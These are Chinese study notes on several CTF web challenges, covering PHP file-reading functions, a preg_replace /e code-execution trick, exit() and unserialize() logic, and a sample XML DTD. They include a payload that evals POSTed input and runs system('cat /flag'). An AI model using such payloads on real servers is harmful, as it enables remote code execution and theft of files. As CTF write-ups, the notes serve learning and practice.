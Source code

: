 读取文件函数

> file\_get_content() :因为et被ban，所以不能使用
> 
> readfile()
> 
> highlight_file()
> 
> show_source()




## [BJDCTF2020]ZJCTF，不过如此 ##

preg_replace()使用的/e模式可以存在远程执行代码.https://xz.aliyun.com/t/2557

payload:\S*=${phpinfo()}

即:\S*=${eval($_POST[cmd])}  POST:cmd=system('cat /flag');


## [BJDCTF2020]Mark loves cat ##

问题:没到理解exit()函数。


解决:exit()相当于echo，区别在于exit()执行后退出。

所以这题不一定要绕过3个if(绕不了，即使绕过了$flag也会被覆盖),直接用exit()即可。



## [网鼎杯 2020 朱雀组]phpweb ##

问题:

1，抓包看到`func=date&p=Y-m-d+h%3Ai%3As+a`没想到是date是函数,p是函数内容。

2，到`call_user_func($func, $p);`不知如何利用。


解决:

看到class 应想到反序列化，而不是老想利用`call_user_func($func, $p);`写shell(绕不过),既要利用`unserialize()`.

## [NCTF2019]Fake XML cookbook ##

问题:

不懂xml注入

解决：

    <?xml version="1.0"?>
    <!DOCTYPE note [<!--定义此文档是 note 类型的文档-->
    <!ELEMENT note (to,from,heading,body)><!--定义note元素有四个元素-->
    <!ELEMENT to (#PCDATA)><!--定义to元素为”#PCDATA”类型-->
    <!ELEMENT from (#PCDATA)><!--定义from元素为”#PCDATA”类型-->
    <!ELEMENT head (#PCDATA)><!--定义head元素为”#PCDATA”类型-->
    <!ELEMENT body (#PCDATA)><!--定义body元素为”#PCDATA”类型-->
    ]>
    <note>
    <to>Y0u</to>
    <from>@re</from>
    <head>v3ry</head>
    <body>g00d!</body>
    </note>

